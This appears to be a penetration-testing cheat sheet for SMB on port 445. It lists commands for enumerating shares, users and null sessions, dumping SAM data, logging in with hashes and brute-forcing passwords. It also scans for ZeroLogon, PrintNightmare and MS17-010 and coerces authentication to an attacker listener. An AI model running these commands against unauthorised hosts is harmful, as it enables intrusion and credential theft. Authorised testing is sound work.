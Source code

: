 # 445 (137,138, 139) - SMB

## Availabe NMAP Options

    $ nmap –-script smb-check-vulns.nse –script-args=unsafe=1 -p445 [TARGET_IP]
    $ nmap –-script smb-enum-shares.nse –script-args=unsafe=1 -p445 [TARGET_IP]
    $ nmap –-script smb-os-discovery.nse –script-args=unsafe=1 -p445 [TARGET_IP]
    $ nmap –-script smb-enum-users.nse –script-args=unsafe=1 -p445 [TARGET_IP]
    $ nmap --script smb-security-mode.nse,smb2-security-mode.nse -p445 [TARGET_IP]
    $ nmap -n -Pn -sV -p 445 --script smb-vuln-ms10-054 -iL [TARGET_IP] -oX -
    $ nmap -n -Pn -sV -p 445 --script smb-vuln-ms10-061 -iL [TARGET_IP] -oX -
    $ nmap -n -Pn -sV -p 445 --script smb-protocols -iL [TARGET_IP] -oX -

    $ nmap [TARGET_IP] --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse 

## SMB Enumeration
Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain

    $ enum4linux –a [TARGET_IP]
    $ nbtscan [TARGET_IP]
    $ py [TARGET_IP] 500 50000 dict.txt
    
### Enumerate Null Sessions
    $ nxc smb [TARGET_IP] -u '' -p ''
    $ nxc smb [TARGET_IP] -u '' -p '' --shares
    $ nxc smb [TARGET_IP] -u '' -p '' --pass-pol
    $ nxc smb [TARGET_IP] -u '' -p '' --users
    $ nxc smb [TARGET_IP] -u '' -p '' --groups

    $ smbclient \\[TARGET_IP]\IPC$ -U % -p 445 -t 30 -c tcon IPC$; showconnect; logoff
    $ smbclient -N -U "" -L \\[TARGET_IP]
    
    $ rpcclient -N -U "" -L \\[TARGET_IP]
        $ rpcclient $> enumdomusers

 ### Enumerate Guest Logon

    $ nxc smb [TARGET_IP] -u 'a' -p '' 
    $ nxc smb [TARGET_IP] -u 'a' -p '' --shares

## SMB samdump attempt 

    $ python3.9 /usr/share/doc/python3-impacket/examples/samrdump.py [TARGET_IP]

## Enumerate SMB Shares

    $ smbclient \\[TARGET_IP]\FTP -c recurse;ls -U administrator%[hash]--pw-nt-hash
    $ nxc smb [TARGET_IP]/24 -u UserNAme -p 'PASSWORDHERE' --shares
    $ nxc smb [TARGET_IP]/24 -u UserNAme -p 'PASSWORDHERE' --shares --filter-shares READ WRITE

## Access to SMB 

    Attempt to login with Anonymous Account
    $ smbclient -l \\\\[TARGET_IP]\\
    
    $ smbclient \\\\[TARGET_IP]\\ADMIN$
    $ smbclient //[TARGET_IP]/ipc$ -U john
    $ smbclient -L //server/share
    $ nxc smb [TARGET_IP]/24 -u UserNAme -p 'PASSWORDHERE' --sessions

## SMB Ransomeware Check

    $ smbclient \\[TARGET_IP]\C$ -c put 6a3d2b157b12.txt; ls 6a3d2b157b12.txt; get 6a3d2b157b12.txt; rm 6a3d2b157b12.txt; ls 6a3d2b157b12.txt -U administrator%[hash] --pw-nt-hash

## Brute Force Options

    $ nmap --script smb-brute -p 445 [TARGET_IP]
    $ hydra -l Administrator -P words.txt [TARGET_IP] smb -t 1

## NetExec

**Reference:** https://www.netexec.wiki/smb-protocol/scan-for-vulnerabilities

### Scan for Vulnerabilities

ZeroLogon

    $ nxc smb [TARGET_IP] -u '' -p '' -M zerologon

noPAC

    $ nxc smb [TARGET_IP] -u 'user' -p 'pass' -M nopac
You need a credential for noPAC vulnerability check.

PrintNightmare

    $ nxc smb [TARGET_IP] -u '' -p '' -M printnightmare
SMBGhost

    $ nxc smb [TARGET_IP] -u '' -p '' -M smbghost
MS17-010 (Not tested outside LAB environment)

    $ nxc smb [TARGET_IP] -u '' -p '' -M ms17-010
Or list each one: -M zerologon -M printnightmare

### Scan for Coerce Vulnerabilities
You can check for coerce vulnerabilities such as PetitPotam, DFSCoerce, PrinterBug, MSEven and ShadowCoerce using the coerce_plus module. You can also use credentials to check for these vulnerabilities. By default the LISTENER ip will be set to localhost, so no traffic will appear on the network.

    $ nxc smb [TARGET_IP] -u '' -p '' -M coerce_plus
If a vulnerability is found, you can set a LISTENER ip to coerce the connection.

    $ nxc smb [TARGET_IP] -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>
To run all exploit methods at once, add the ALWAYS=true option, otherwise it will stop if the underlying RPC connection reports a successful coercion.

    $ nxc smb [TARGET_IP] -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true
You can also check for a specific coerce method by specifying it:

    $ nxc smb [TARGET_IP] -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
